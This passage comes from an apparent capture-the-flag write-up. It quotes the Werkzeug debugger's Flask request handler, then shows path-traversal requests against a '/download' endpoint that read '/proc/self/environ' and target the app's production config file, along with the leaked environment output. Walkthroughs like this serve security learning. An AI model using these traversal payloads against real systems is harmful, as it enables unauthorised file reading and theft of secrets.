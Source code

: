 ```python
        # form data!  Otherwise the application won't have access to that data
        # any more!
        request = Request(environ)
        response = self.debug_application
        if request.args.get("__debugger__") == "yes":
            cmd = request.args.get("cmd")
            arg = request.args.get("f")
            secret = request.args.get("s")
            frame = self.frames.get(request.args.get("frm", type=int))  # type: ignore
            if cmd == "resource" and arg:
                response = self.get_resource(request, arg)  # type: ignore
            elif cmd == "pinauth" and secret == self.secret:
                response = self.pin_auth(request)  # type: ignore
            elif cmd == "printpin" and secret == self.secret:
                response = self.log_pin_request()  # type: ignore
            elif (
                self.evalex
                and cmd is not None
                and frame is not None
                and self.secret == secret
                and self.check_pin_trust(environ)
            ):
                response = self.execute_command(request, cmd, frame)  # type: ignore
        elif (
            self.evalex
            and self.console_path is not None
            and request.path == self.console_path
        ):
            response = self.display_console(request)  # type: ignore
        return response(environ, start_response)
```

I thought I would check `/proc/self/environ` to get environment variables for the current process (our flask app) by calling `GET /download?fn=../../../proc/self/environ HTTP/1.1`:

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 19 Mar 2023 07:55:05 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 260
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

LANG=C.UTF-8 PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin HOME=/var/www LOGNAME=www-data USER=www-data INVOCATION_ID=ff736f43492f4d359d1b725e81d98a91 JOURNAL_STREAM=8:32137 SYSTEMD_EXEC_PID=1088 CONFIG_PATH=/app/config_prod.json 
```

Note that `USER=www-data`, which is fairly typical

Let's call `GET /download?fn=../../../app/config_prod.json HTTP/1.1`, to get the app config:
